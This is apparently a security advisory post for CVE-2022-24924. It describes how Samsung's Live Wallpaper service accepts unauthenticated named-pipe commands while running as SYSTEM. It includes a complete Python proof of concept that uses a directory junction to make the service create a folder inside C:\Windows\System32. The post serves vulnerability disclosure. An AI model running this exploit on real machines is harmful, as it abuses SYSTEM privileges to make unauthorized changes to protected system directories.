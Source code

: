 ```yaml
---
title : "CVE-2022-24924"
excerpt: "Improper access control vulnerability in LiveWallpaperService"

categories:
    - "0-day"
tags:
    - [Samsung, 0-day, CVE, CVE-2022-24924]
---
```



# Improper access control vulnerability in LiveWallpaperService

Windows version tested: Windows 10 20H2 (Build 19042.1348) 64bit

Live Wallpaper Version: 3.0.9.0 or earlier

There is a LiveWallpaperService that works by default in Samsung laptops, but there was a vulnerability that created the SYSTEM directory in a directory with SYSTEM privileges in the SYSTEM service.

Live Wallpaper is usually installed by default on Samsung laptops, but it is also an app available from the Microsoft Store. The app can be run with User permission and communicates between the server and the client through Named PIPE IPC. At this time, the PIPE Server is operating with SYSTEM privileges and does not check which the clients are.

The following is the operation process performed when the corresponding app is launched.

Server is '33;' Upon receiving the unicode string, it accesses the 'C:\Users\{username}\AppData\Local\Packages\Sidia.LiveWallpaper_wkpx6gdq8qyz8' folder and checks the existence of the LiveWallpaperData directory. A new file system directory is created in the directory with the name 'LiveWallpaperData'.

Named PIPE is used to communicate with each other between processes. Since there is no separate client inspection, the attacker can directly open it and send the desired data.

First, after opening Named PIPE directly, create a directory junction to C:\Windows\System32 using symboliclink-testing-tools produced by james forshaw. It is created as a subdirectory of the System32 directory with privileges.

Here is the PoC for that vulnerability.

In order to perform PoC, the following conditions must be met:

1. Basically, LiveWallpaperService must be running in Windows.
2. The CreateMountPoint.exe executable file and DeleteMountPoint.exe executable file built using the symboliclink-testing-tools produced by james forshaw must exist in the same directory as the PoC.

```python
# python 3.7.2
import os
import shutil
import time
import getpass

def stringToWstring(st : str) -> str:
    result = ''
    for i in st:
        result += i+'\x00'
    return result

def main():
    # current user name
    username = getpass.getuser()

    # path settings
    path1 = f'C:\\Users\\{username}\\AppData\\Local\\Packages\\Sidia.LiveWallpaper_wkpx6gdq8qyz8'
    path2 = 'C:\\Windows\\System32'

    # delete directory
    if os.path.isdir(path1):
        shutil.rmtree(path1)

    # create directory junction
    command = f'CreateMountPoint.exe "{path1}" "{path2}"'
    os.system(command)

    # write data to named pipe
    with open('\\\\.\\pipe\\LiveWallpaperPipe', 'a') as f:
        f.write(stringToWstring('33;'))

    # IPC delay time
    time.sleep(2)

    # directory check
    if os.path.isdir(path2+'\\LiveWallpaperData'):
        print('[+] Success')
    else:
        print('[-] failed')

    # delete directory junction
    command = f'DeleteMountPoint.exe {path1}'
    os.system(command)
    shutil.rmtree(path1)

if __name__=='__main__':
    main()
```